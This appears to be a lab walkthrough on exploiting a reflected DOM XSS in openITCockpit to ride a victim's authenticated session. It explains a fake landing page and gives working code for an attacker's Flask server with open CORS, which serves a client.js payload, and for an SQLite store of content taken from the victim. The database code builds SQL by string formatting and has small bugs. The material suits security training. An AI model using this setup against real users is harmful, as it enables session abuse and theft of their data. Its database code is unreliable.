

## Our Limitations
A reflected DOM based XSS gives us limited opportunities.
Unlike stored XSS, in reflected XSS, the vulnerable link, needs to be sent to the victim. Once the victim visits the page, the XSS will be triggered.

If we use Burp to inspect any of the requests and responses sent to and from the application, we may notice a cookie named _itnovum_.
This cookie is most likely used for sessions management.


We also see that the "http only" flag is set to true:


This means that we won't be able to access the user's session cookie using XSS.
While we won't have access to the user's session cookie, we do have access to the DOM, and we can control what is loaded and rendered on the web page with XSS.

When a user's browser, requests content from a webpage(triggered by refresh or js), the browser, will automatically include the session cookie, in the request(even if the JavaScript does not have access to the cookie value)

This would mean that we can add content's of the page, of the authenticated users, via XSS, that will only be accessible to the authenticated users and not the server.

Now, even though the JavaScript has the ability to manipulate the DOM, it does not mean we can control everything on the page.
The server has set restrictions to what the JavaScript can access, using the SOP(Same-Origin Policy).
The Same-Origin Policy, only allows resources from the same origin to communicate.
(For instance, if google.com wanted to load bing.com inside it. That would not be allowed)
(In an attacker's perspective, we cannot simply create a webpage, and manipulate the DOM to use our malicious webpage)

However, to bypass this we can rely on the fact, that the SOP allows JavaScript, running on the lodash page, to send a request, using XMLHttpRequest, or fetch to the openITCockpit server, and read the contents of the response.
This means we can load any page from the OpenITCockpit server, and retrieve it's contents.

**Why do this?**
The point of this exploitation, would be that if the victim of the XSS is already authenticated, they will have the access, and be able to load endpoints on the server that we cannot.
By this, we will be riding our victim's user session, to the server, instead of posing as the user(like in a normal session hijacking scenario).

**Client side limitations**
It is also important to note, that this session will only be available till the time our victim has the window with the XSS open.
This means we only get a small amount of time to perform the content discovery.

## Creating an Application
To run the following tasks, we will be creating our own application.
It will have 3 main components:
1. The xss payload script.
2. A Flask API server, to receive the contents of collected by the server
3. An SQLite database to store the collected content.


## Creating a Landing Page
We can manipulate the vulnerable page, using the Firefox developer tools:
For instance, we can start by querying for all "body" elements, and then access the index with 0:


We can store that in a variable, and use the innerHTML method, to access the contents of the body:


We can even edit the contents of the element:


Cool tip:
We can copy the source page of the homepage, and paste it inside backticks in the body.innerHTML variable.
This will lead to designing a page controlled by us, but with the vulnerable URL.


## Creating the Database
Even though we have a way to create a fake login page, we will need to create a database, where we can store whatever contents, we extract from the victim's session.
We will be creating an SQLite database for this.
We should be able to run the database script through the command line, moreover, both the API server and the script to dump the data, should be able to import functions from the database script.
We start by creating a script to initialize the database, and provide functions to insert data.

The script will have 4 main components:
1. To create a database
2. To insert content
3. To get content
4. To list the location of the content obtained

The script will look as follows:

```python
	##Import Functions##
import base64
import sqlite3
import argparse
import os
from webbrowser import get

##Function to create the database connection##
def create_connection(db_file):
	conn = None
##Pass the filename into the sqlite3.connect() function##
	try:
		conn = sqlite3.connect(db_file)
	except Exception as e:
		print(e)
	return conn

##Function to create the database and tables##
def create_db(conn):
##Table will have 3 columns##
## 1. An integer that auto-increments as the primary key. ##
## 2. The location, in the form of a URL, that the content was obtained from. ##

#3. The content in form of blob
	createContentTable="""CREATE TABLE IF NOT EXISTS content (
			id integer PRIMARY KEY,
			location text NOT NULL,
			content blob);"""
	try:
		c = conn.cursor()
		c.execute(createContentTable)
	except Exception as e:
		print(e)

##Function to insert into database##
def insert_content(conn, loc1, cont1):
	insertContent="""INSERT INTO content(location, content) VALUES ('%s', '%s');""" % (loc1, cont1)
	getrowid = """SELECT last_insert_rowid;"""
	try:
		c = conn.cursor()
		c.execute(insertContent)
		c.execute(getrowid)
		getrowidResult = c.fetchall()
		for rowid in getrowidResult:
			return(rowid[0])
	except Exception as e:
		print(e)

##Function to get contents from database##
def get_content(conn, loc2):
	getContent="""SELECT content FROM content WHERE location LIKE ("%s%s");""" % (loc2, '%')
	try:
		c = conn.cursor()
		c.execute(getContent)
		thecontent = c.fetchall()
		for i in range(0,1000000):
			print (thecontent[i][0])
	except Exception as e:
		print(e)

##Function to get location from database##
def get_locations(conn):
	getLocation="""SELECT location FROM content;"""
	try:
		c = conn.cursor()
		c.execute(getLocation)
		getLocationResult = c.fetchall()
		for i in range(0,100000):
			print(getLocationResult[i][0])
	except Exception as e:
		print(e)

##Create the file to save the database##
if __name__ == "__main__":
	database = r"sqlite.db"
##Write the parser for the arguments##
	parser = argparse.ArgumentParser()
	group = parser.add_mutually_exclusive_group(required=True)
##Create the arguments##
	group.add_argument('--create','-c', help='Create Database', action='store_true')
	group.add_argument('--insert','-i', help='Insert Content', action='store_true')
	group.add_argument('--get','-g', help='Get Content', action='store_true')
	group.add_argument('--getLocations','-l', help='Get all Locations', action='store_true')
	parser.add_argument('--location','-L')
	parser.add_argument('--content','-C')
	args = parser.parse_args()


##Invoke the function for creating the database##
	conn = create_connection(database)
##Check if any arguments were called and call the appropriate function#
	if (args.create):
		print("[+] Creating Database")
		create_db(conn)
	elif (args.insert):
		if(args.location is None and args.content is None):
			parser.error("--insert requires --location, --content.")
		else:
			print("[+] Inserting Data")
			print(insert_content(conn, args.location, args.content))
			conn.commit()
	elif (args.get):
		if(args.location is None):
			parser.error("--get requires --location, --content.")
		else:
			print("[+] Getting Content")
			print(get_content(conn, args.location))
	if (args.getLocations):
		print("[+] Getting All Locations")
		print(get_locations(conn))
```

## Creating the API

Now we will proceed to create the API that will collect the data sent from the user's browser and store it in the database.
We will build the application with flask.
We will import functions from our database script, and from flask and flask_cors modules.

We will use the flask_cors extension, to send the "CORS" header.
After imports are completed, we will start by defining the Flask app, and the CORS extension.
We will also set the Cross-Origin Resource Sharing header(CORS), as we will be calling the API server, using the XSS.
The CORS header will instruct the victim's browser, to allow XHR request to access resources from other origins.
In the case of the XSS we have discovered, we want to instruct the victim's browser to allow the XSS payload (running from https://openitcockpit) to be able to reach out to our API server to send the discovered content.
We will also define the database file we created.
Next, we will start our webserver.

We will also need to generate a self-signed certificate, and key.
This is because, openITCockPit, runs on HTTPS, and any modern browser will block mixed requests(HTTPS to HTTP).


With the self signed certificate and key generated, we can refer it in the app.run function, and specify a port for the API to run on.
With the Flask server ready, we need endpoints to run.
The first endpoint will be the contents of the login page, of OpenITCockPit server to allow the XSS to load our payload.

We'll use a python decorator to set the route.
We will send the client.js file with Flask's send_file function.

The final script will look as follows:

```python
##Import neccessary functions##
from flask import Flask, request, send_file
from db import create_connection, insert_content, create_db
from flask_cors import CORS

##Define the Flask API##
app = Flask(__name__)
CORS(app)
##Define the database file to be used##
database = r"sqlite.db"

##use a python decorator to set the route##
@app.route('/client.js', methods=['GET'])
def clientjs():
	print("[+] Sending Payload")
	##use the client.js file##
	return send_file('./client.js', attachment_filename='client.js')

##Run the API##
app.run(host='0.0.0.0', port=443, ssl_context=('cert.pem', 'key.pem'))
```

Navigating to our attacker machine's IP, we see the contents of client.js:



